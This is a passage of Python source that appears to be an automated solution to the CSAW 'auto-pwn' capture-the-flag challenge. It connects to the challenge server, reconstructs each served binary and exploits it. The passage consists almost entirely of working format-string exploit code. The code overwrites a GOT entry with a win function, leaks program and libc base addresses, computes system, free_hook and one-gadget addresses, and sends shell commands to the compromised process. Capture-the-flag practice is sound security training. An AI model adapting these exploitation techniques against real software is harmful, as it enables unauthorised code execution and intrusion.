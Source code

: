 ```python
    from binascii import unhexlify
    r = remote("auto-pwn.chal.csaw.io", port)
    # r = process("./binary")
    r.sendline(password)
    r.recvuntil(b"---\n")
    binary = r.recvuntil(b"-------------------\n").rstrip().replace(b"-------------------------------------------------------------------",b"")
    open("binary.hex","wb").write(binary)
    os.system("xxd -rp binary.hex > binary")
    exe = ELF("binary")
    win = next(exe.search(unhexlify("f30f1efa554889e5488d")))
    payload = flat([
        f"%{win & 0xffff}c".encode(),
        b"C" * (8 - len(str(win & 0xffff)) + 1) ,
        b"%8$hn",
        p64(exe.got['exit']),
    ])
    open("payload.bin","wb").write(password + b"\n" + payload)
    r.sendline(payload)
    r.sendline("cat message.txt;ls;exit")
    if shell:
        r.interactive()
    r.recvuntil(b"flag is in another box! ")
    # print()
    message = r.recvline().decode()
    print(message)
    searched = re.search("auto-pwn.chal.csaw.io ([0-9]*) and use password (.*)", message)
    if shell:
        r.interactive()
    r.close()

    return (int(searched.group(1)), searched.group(2).encode())


def exploit_4(port, password, shell):
    from binascii import unhexlify
    r = remote("auto-pwn.chal.csaw.io", port)
    # r = gdb.debug("./binary",gdbscript="b fgets\nc")
    r.sendline(password)
    r.recvuntil(b"---\n")
    binary = r.recvuntil(b"-------------------\n").rstrip().replace(b"-------------------------------------------------------------------",b"")
    open("binary.hex","wb").write(binary)
    os.system("xxd -rp binary.hex > binary")
    # r.interactive()
    exe = ELF("binary")
    payload = b"%7$lx.%45$lx"
    f = open("payload.bin","wb")
    f.write(password + b"\n" + payload)
    r.sendline(payload)
    r.recvuntil(b"Report 1:\n")
    prog, libc = r.recvline().decode().split(".")
    program_base, libc_base = (int(prog, 16) - 0x374c, int(libc, 16) - 0x270b3)
    memset_got = program_base + 0x36b8
    system_addr = libc_base + 0x55410
    free_hook = libc_base + 0x000000000039b788
    one_gadget = libc_base + 0x3f35a
    log.info(f"program base: {hex(program_base)}, libc base: {hex(libc_base)}")
    log.info(f"memset_got: {hex(memset_got)}, system_addr: {hex(system_addr)}")
    context.bits = 64
    context.arch = 'amd64'
    def exec_fmt(payload):
        p = exe.process()
```
